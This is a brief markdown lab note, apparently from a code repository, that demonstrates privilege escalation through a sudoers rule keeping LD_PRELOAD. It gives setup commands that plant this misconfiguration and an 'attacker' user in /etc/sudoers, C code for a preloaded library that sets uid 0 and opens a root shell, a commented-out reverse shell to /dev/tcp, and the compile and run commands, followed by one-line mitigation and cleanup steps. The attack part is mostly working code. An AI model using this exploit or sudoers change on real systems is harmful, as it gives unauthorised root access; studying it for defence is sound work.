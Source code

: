 # Setup

```sh
# root
cp /etc/sudoers /etc/sudoers.bak
adduser attacker
echo "attacker ALL=(ALL) NOPASSWD: /usr/bin/id" >> /etc/sudoers
echo "Defaults env_keep += LD_PRELOAD" >> /etc/sudoers
```

# Exploit

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
    // system("bash -c 'bash -i >& /dev/tcp/127.0.0.1/10001 0>&1'");
}
```


```bash
gcc -fPIC -shared -nostartfiles -o exp.so exp.c
sudo LD_PRELOAD=./exp.so id
```


# Mitigate

```bash
# Remove env_keep += LD_PRELOAD
```

# Clean Up

```bash
deluser attacker --remove-home
cp /etc/sudoers.bak /etc/sudoers
```